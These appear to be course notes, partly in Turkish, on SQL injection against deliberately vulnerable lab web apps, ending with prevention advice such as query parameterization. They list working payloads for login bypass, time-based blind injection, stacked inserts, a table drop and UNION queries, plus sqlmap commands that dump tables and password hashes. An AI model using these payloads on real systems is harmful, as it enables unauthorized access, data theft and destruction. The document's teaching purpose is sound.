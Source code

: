 
## Security Testing (OWASP ZAP  Getting Started Guide)

<https://github.com/zaproxy/zaproxy/wiki/Downloads>

ZAP active scan

## SQL Injection (PHP)
https://github.com/celalceken/InsecureWebApplicationProject

Switch to 1.2.0 SQL Injection

Bypassing Login Screens

Payload: A2' or '1'='1';--
Payload: A2' or '1';--
Payload: A1';--

Payload: admin'#  // (switch to mysql)

## SQL Injection (Spring Boot)
https://github.com/celalceken/spring-boot-examples/tree/master/insecurewebapplication

Payload: admin2' or '1'--

### Blind SQL Injection 

<https://www.owasp.org/index.php/Blind_SQL_Injection>

Blind SQL (Structured Query Language) injection is a type of SQL Injection attack that asks the database true or false questions and determines the answer 
based on the applications response. This attack is often used when the web application is configured to show generic error messages, but has not mitigated 
the code that is vulnerable to SQL injection.

When an attacker exploits SQL injection, sometimes the web application displays error messages from the database complaining that the SQL Query's syntax 
is incorrect. Blind SQL injection is nearly identical to normal SQL Injection, the only difference being the way the data is retrieved from the database. 
When the database does not output data to the web page, an attacker is forced to steal data by asking the database a series of true or false questions. 
This makes exploiting the SQL Injection vulnerability more difficult, but not impossible.

Switch to 1.2.0 SQL Injection

In the Login Page

Payload: asdf' AND 3930=(SELECT 3930 FROM PG_SLEEP(5)) AND 'gRqx'='gRqx


### Stacked SQL Injection
Prepared statements are preveting multiple query execution //﻿"cannot insert multiple commands into a prepared statement"



https://github.com/celalceken/SecureSoftwareDevelopment/blob/master/Lecture3/1.2.PHPExamples/8JSONPHP.php

Payload: '; insert into table1 values( 5, 'toX', 'toY', 4 );--

Payload: ';drop table "table2"; --

### Union Injections 
Basically you can poison query to return records from another table.

https://github.com/celalceken/SecureSoftwareDevelopment/blob/master/Lecture3/1.2.PHPExamples/8JSONPHP.php

A' UNION select adi, soyadi from "AkademikPersonel";--

### sqlmap

https://github.com/celalceken/InsecureWebApplicationProject
Switch to 1.3.1 Switch to MySQL DB -> SQL Injection


sqlmap hakkında ayrıntılı bilgi için : <https://github.com/sqlmapproject/sqlmap/wiki/Usage>


sqlmap -u "http://192.168.56.103/InsecureWebApplicationProject/Dogrula.php" --data "personelNo=a&sifre=a" --dbs --level=5 --risk=3 --flush-session
sqlmap -u "http://192.168.56.103/InsecureWebApplicationProject/Dogrula.php" --data "personelNo=a&sifre=a" -D obs --tables
sqlmap -u "http://192.168.56.103/InsecureWebApplicationProject/Dogrula.php" --data "personelNo=a&sifre=a" -D obs -T AkademikPersonel --dump

--flush-session parametresi ile yeni oturum (yeni tarama) açılır...


> sqlmap -u "http://192.168.56.103/InsecureWebApplication/Dogrula.php" --data "personelNo=a&sifre=a" -f (fingerprint) vt sürümü
root@kali:~# sqlmap -u "http://192.168.56.103/InsecureWebApplication/Dogrula.php" --data "personelNo=a&sifre=a" -f

> sqlmap -u "http://192.168.56.103/InsecureWebApplication/Dogrula.php" --data "personelNo=a&sifre=a" --current-user

--hostname, --current-db, --users, --passwords, --privileges, --roles


## SQL Injection Prevention

https://www.owasp.org/index.php/SQL_Injection_Prevention_Cheat_Sheet

a. Input filtering
    if ($userSession->login(filter_var($_POST['personelNo'], FILTER_SANITIZE_STRING), $_POST['sifre'], FILTER_SANITIZE_STRING))

b. Query Parameterization:
    In order to mitigate SQL injection, untrusted input should be prevented from being interpreted as part of a SQL command.
    The best way to do this is with the programming technique known as ‘Query Parameterization’. In this case, the SQL statements
    are sent to and parsed by the database server separately from any parameters.

c. Prepared statement

d. Stored Procedures

e. Encoding

